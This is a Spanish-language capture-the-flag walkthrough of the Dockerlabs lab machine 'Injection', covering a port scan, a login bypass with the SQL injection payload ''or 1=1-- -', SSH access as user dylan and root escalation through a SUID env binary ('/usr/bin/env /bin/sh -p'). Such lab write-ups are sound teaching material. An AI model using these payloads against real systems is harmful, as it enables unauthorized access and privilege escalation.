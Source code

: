 

# Writeup: Injection - Dockerlabs

Hola, bienvenidos y bienvenidas. Vamos a resolver una máquina de la plataforma **Dockerlabs** llamada **"Injection"**.  
A continuación, podrás ver paso a paso cómo se resuelve. ¡Que te diviertas!


---

## **Ecaneo de Puertos con Nmap**
Hacemos uso de `nmap` con la IP proporcionada por Dockerlabs para ver los puertos abiertos:  


```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```
Host is up (0.000020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
 
Ahora sabemos que el **puerto 80 (HTTP)** y el **puerto 22 (SSH)** están abiertos.

---

## **Acceso a la Aplicación Web**
Nos dirigimos a poner la IP en el navegador.

![login](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/login.png)




  

Como la máquina nos habla de una **inyección** (como su propio nombre lo dice), intentamos hacer una **SQL Injection (SQLi)** con el clásico payload:  

```
'or 1=1-- -
```

**Explicación:**  
Como `1=1` siempre es verdadero, la consulta devuelve todos los registros, permitiendo el acceso sin conocer la contraseña (ponemos cualquier contraseña).  

**¡Sorpresa! Hemos entrado.** 

---

## **Acceso a SSH**
Sabemos que el **puerto 22 (SSH)** está abierto, así que vamos a intentar conectarnos.  

Ejecutamos el siguiente comando:  

```
sudo ssh 172.17.0.2 -l dylan
```

![ssh](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/ssh-entramos.png)




**Explicación de los parámetros:**  
- `sudo` → Ejecuta el comando con permisos de superusuario (root).  
- `ssh` → Inicia una conexión SSH (Secure Shell) para acceder a otro sistema de forma segura.  
- `172.17.0.2` → Es la dirección IP del servidor al que queremos conectarnos.  
- `-l dylan` → Especifica el usuario (`dylan`) con el que nos conectaremos.  

También podemos usar esta otra forma:  

```bash
sudo ssh dylan@172.17.0.2
```

---

## **Escalada de Privilegios**
Ahora que somos **dylan**, intentaremos hacer **escalada de privilegios** hasta ser **superusuario (root)**.  

Ejecutamos en la terminal:  

```bash
find / -perm -4000 -user root 2>/dev/null
```


![escalada](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/escalada.png)




**Explicación del comando:**  
- `find /` → Busca archivos en todo el sistema (`/` es la raíz).  
- `-perm -4000` → Filtra archivos con permiso **SUID** (4000 en octal), lo que permite que el archivo se ejecute con permisos de su propietario (en este caso, root).  
- `-user root` → Filtra para que solo muestre archivos cuyo dueño sea **root**.  
- `2>/dev/null` → Redirige los errores (`stderr`, descriptor `2`) a `/dev/null`, ocultando mensajes de «Permiso denegado».  

### **Archivo interesante encontrado: `/usr/bin/env`**
El binario **env** a veces permite ejecutar comandos como **root**.  
Otros binarios sospechosos suelen ser: `find`, `bash`, `vim`, `less`, `awk`, etc..  

---

## **Uso de GTFOBins para Escalada**
Buscamos el binario **env** en [GTFOBins](https://gtfobins.github.io/) para ver si tiene técnicas conocidas de escalada.  

Encontramos que podemos ejecutar:  

```bash
/usr/bin/env /bin/sh -p
```

¡Y listo! Ahora verificamos con:  

```
whoami
```

![whoami](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/listo-somos-root.png)


**Somos root. Máquina resuelta.**
